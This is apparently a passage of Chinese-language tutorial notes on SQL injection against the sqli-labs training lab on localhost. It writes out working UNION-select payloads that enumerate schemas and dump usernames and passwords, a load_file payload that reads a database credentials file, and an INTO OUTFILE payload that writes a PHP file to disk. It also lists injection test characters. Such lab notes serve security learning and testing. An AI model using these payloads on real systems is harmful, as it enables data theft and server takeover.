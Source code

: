 ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhWdaR2aZibkVc0duKnXvz38whPb0EkUHNEHHat4HiaXXk2406z9p82BZQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

- `127.0.0.1:8888/Less-2/?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata`爆出所有数据库
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhdwoaxmZIZO37X6cLGO8qPW0Ap2EVIibAfiaam5EsVoSBd7377eE4venw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
- `127.0.0.1:8888/Less-2/?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'pikachu'`获取特定数据库表名
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMht5Uwj1n312UibcEYGP3bfrZdtVzEMU8GuecPF9XjxyOn7NhZicuTjm9g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
- `127.0.0.1:8888/Less-2/?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users' and table_schema = 'pikachu'`获取特定数据库特定表列数据
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhCicO1DRSayuY6tM3mQJibibN5icUAxydSnibC7ibLkhdyJysIJCz1ExHg5BQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
- `http://127.0.0.1:8888/Less-2/?id=-1 union select 1,username,password from pikachu.users`查询user的数据
- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhnicvMpjJVxCndA9mcnQufKWicyksy4LL87cqGra9F8yfbVk3osTetCKA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

```
文件读写操作
load_file():读取函数
into outfile或iinto dumpfile:导出函数
获取路径的常见方法
报错显示、遗留文件、漏洞报错、平台配置文件、爆破等、
```

- `http://127.0.0.1:8888/Less-2/?id=-1%20union%20select%201,load_file(%27D:\\Software\\PhpStudy\\phpstudy_pro\\WWW\\sqli-labs-master\\sql-connections\\db-creds.inc%27),3`读取本地文件

- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhibmrRlres9iaejeOm9HxakhW7aFnrUe1UDbpE4bAQMJj9Zh0YO5dpNAA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

- `http://127.0.0.1:8888/Less-2/?id=-1%20union%20select%201,%20%27x%27%20,3%20into%20outfile%20%27D:\\x.php%27%20--+`本地文件写入

  

- ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhOskBhKMcqWWiaFXvOoxaTSvHEfQgL0QGdH6StWzDdky0SSzr5D5Tviag/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

- magic_quotes_gpc

- 当magic_quotes_gpc = On时，输入数据中含单引号（’）、双引号（”）、反斜线（\）与 NULL（NULL 字符）等字符，都会被加上反斜线

## P14. SQL注入之类型提交注入

**在真实SQL注入安全测试中，我们一定要先明确提交数据及提交方法后再进行注入，其中提交数据类型和提交方法可以通过抓包分析获取,后续安全测试中我们也必须满足同等的操作才能进行注入。**

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicy3sln0zHKTBrAacxk8bMhicYZ6kDpHTLqo1Pfzoia3dcgHt0HxnicYfCFroG2B39AjC55luJpiavuZw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

```
#简要明确参数类型
数字，字符，搜索，JSON等
数字可以直接加在sql中
字符就要通过单双引号接入sql语句中

#简要明确请求方法|
GET, POST, COOKIE, REQUEST, HTTP头等

其中SQI语句干扰符号:  ', ", %, ), } 等，具体需看写法
'"]})可以作为默认测试写法
```
